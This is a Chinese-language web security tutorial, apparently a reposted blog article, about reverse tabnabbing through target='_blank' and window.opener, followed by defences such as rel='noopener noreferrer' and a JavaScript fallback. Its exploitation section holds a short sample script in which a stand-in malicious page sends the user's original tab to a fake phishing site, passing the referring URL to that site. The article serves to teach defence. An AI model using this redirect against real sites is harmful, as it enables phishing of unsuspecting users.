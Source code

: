 ```yaml
---
title: 危险的target="_blank"与"opener"
urlname: target-blank-should-be-used-with-caution
date: 2018-04-12 16:16:35
tags: javascript
---
```

原文链接：[https://juejin.im/post/5a9f8425f265da239a5f57f8](https://juejin.im/post/5a9f8425f265da239a5f57f8)
> 在网页中使用链接时，如果想要让浏览器自动在新的标签页打开指定的地址，通常的做法就是在 a 标签上添加 target等于"_blank" 属性。
然而，就是这个属性，为钓鱼攻击者带来了可乘之机。

## 起源
#### `parent` 与 `opener`
在说 `opener` 之前，可以先聊聊 `<iframe>` 中的 `parent`。

我们知道，在 `<iframe>` 中提供了一个用于父子页面交互的对象，叫做 `window.parent`，我们可以通过 `window.parent` 对象来从框架中的页面访问父级页面的 `window`。

`opener` 与 `parent` 一样，只不过是用于 `<a target="_blank">` 在新标签页打开的页面的。通过 `<a target="_blank">` 打开的页面，可以直接使用 `window.opener` 来访问来源页面的 `window` 对象。
<!-- more -->
#### 同域与跨域
浏览器提供了完整的跨域保护，在域名相同时，`parent` 对象和 `opener` 对象实际上就直接是上一级的 `window` 对象；而当域名不同时，`parent` 和 `opener` 则是经过包装的一个 `global` 对象。这个 `global` 对象仅提供非常有限的属性访问，并且在这仅有的几个属性中，大部分也都是不允许访问的（访问会直接抛出 `DOMException`）。

在 `<iframe>` 中，提供了一个 `sandbox` 属性用于控制框架中的页面的权限，因此即使是同域，也可以控制 `<iframe>` 的安全性。

## 利用
如果，你的网站上有一个链接，使用了 `target="_blank"`，那么一旦用户点击这个链接并进入一个新的标签，新标签中的页面如果存在恶意代码，就可以将你的网站直接导航到一个虚假网站。此时，如果用户回到你的标签页，看到的就是被替换过的页面了。
#### 详细步骤
1. 在你的网站 https://example.com 上存在一个链接：
```html
<a href="https://an.evil.site" target="_blank">进入一个“邪恶”的网站</a>
```
2. 用户点击了这个链接，在新的标签页打开了这个网站。这个网站可以通过 `HTTP Header` 中的 `Referer` 属性来判断用户的来源。
   
   并且，这个网站上包含着类似于这样的 `JavaScript` 代码：
   ```javascript
    const url = encodeURIComponent('{{header.referer}}');
    window.opener.location.replace('https://a.fake.site/?' + url);
   ```
3. 此时，用户在继续浏览这个新的标签页，而原来的网站所在的标签页此时已经被导航到了 `https://a.fake.site/?https%3A%2F%2Fexample.com%2F`。
4. 恶意网站 `https://a.fake.site` 根据 Query String 来伪造一个足以欺骗用户的页面，并展示出来（期间还可以做一次跳转，使得浏览器的地址栏更具有迷惑性）。
5. 用户关闭 `https://an.evil.site` 的标签页，回到原来的网站………………已经回不去了。

> 上面的攻击步骤是在跨域的情况下的，在跨域情况下，`opener` 对象和 `parent` 一样，是受到限制的，仅提供非常有限的属性访问，并且在这仅有的几个属性中，大部分也都是不允许访问的（访问会直接抛出 `DOMException`）。
  但是与 `parent` 不同的是，**在跨域的情况下，`opener` 仍然可以调用 `location.replace` 方法而 `parent` 则不可以**。
  如果是在同域的情况下（比如一个网站上的某一个页面被植入了恶意代码），则情况要比上面严重得多。

## 防御
`<iframe>` 中有 `sandbox` 属性，而链接，则可以使用下面的办法：
#### 1. Referrer Policy 和 noreferrer
上面的攻击步骤中，用到了 HTTP Header 中的 `Referer` 属性，实际上可以在 HTTP 的响应头中增加 `Referrer Policy` 头来保证来源隐私安全。

`Referrer Policy` 需要修改后端代码来实现，而在前端，也可以使用 `<a>` 标签的 `rel` 属性来指定 `rel="noreferrer"` 来保证来源隐私安全。
```html
<a href="https://an.evil.site" target="_blank" rel="noreferrer">进入一个“邪恶”的网站</a>
```
> 但是要注意的是：即使限制了 `referer` 的传递，仍然不能阻止原标签被恶意跳转。
#### 2. noopener
为了安全，现代浏览器都支持在 `<a>` 标签的 `rel` 属性中指定 `rel="noopener"`，这样，在打开的新标签页中，将无法再使用 `opener` 对象了，它为设置为了 `null`。
```html
<a href="https://an.evil.site" target="_blank" rel="noopener">进入一个“邪恶”的网站</a>
```
#### 3. JavaScript
`noopener` 属性看似是解决了所有问题，但是...浏览器的兼容性问题...
![](/images/noopener-version.png)
可以看到，现在绝大多数浏览器都已经兼容了 `rel="noopener"` 属性了。但是，为了保护稍旧的“近代”浏览器或是很旧的“古代”浏览器甚至是“远古”浏览器，只有 `noopener` 属性还是远远不够的。

这时，就只能请出下面这段原生 JavaScript 来帮忙了。
```javascript 1.8
"use strict";
function openUrl(url) {
  var newTab = window.open();
  newTab.opener = null;
  newTab.location = url;
}
```
## 推荐
首先，在网站中的链接上，如果使用了 `target="_blank"`，就要带上 `rel="noopener"`，并且建议带上 `rel="noreferrer"`。类似于这样：
```html
<a href="https://an.evil.site" target="_blank" rel="noopener noreferrer">进入一个“邪恶”的网站</a>
```
当然，在跳转到第三方网站的时候，为了 SEO 权重，还建议带上 `rel="nofollow"`，所以最终类似于这样：
```html
<a href="https://an.evil.site" target="_blank" rel="noopener noreferrer nofollow">进入一个“邪恶”的网站</a>

```
## 性能
最后，再来说说性能问题。

如果网站使用了 `<a target="_blank">`，那么新打开的标签页的性能将会影响到当前页面。此时如果新打开的页面中执行了一个非常庞大的 JavaScript 脚本，那么原始标签页也会受到影响，会出现卡顿的现象（当然不至于卡死）。

而如果在链接中加入了 `noopener`，则此时两个标签页将会互不干扰，使得原页面的性能不会受到新页面的影响。

